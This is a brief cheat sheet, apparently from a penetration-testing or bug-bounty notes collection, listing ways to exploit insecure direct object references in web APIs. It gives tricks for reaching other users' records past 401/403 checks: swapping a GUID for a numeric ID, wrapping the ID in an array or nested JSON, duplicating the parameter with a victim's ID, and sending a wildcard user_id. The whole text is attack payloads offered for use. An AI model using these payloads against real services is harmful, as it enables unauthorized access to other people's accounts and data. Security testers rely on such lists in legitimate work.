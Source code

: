
## IDOR
```
Even if ID is a GUID or random, send numeric: /?user_id=111

```


## IDOR in API with 401/403 errors
```
Wrap ID with an array {“id”:111} --> {“id”:[111]}
JSON wrap {“id”:111} --> {“id”:{“id”:111}}
Send ID twice URL?id=<LEGIT>&id=<VICTIM>
Send wildcard {"user_id":"*"}
```



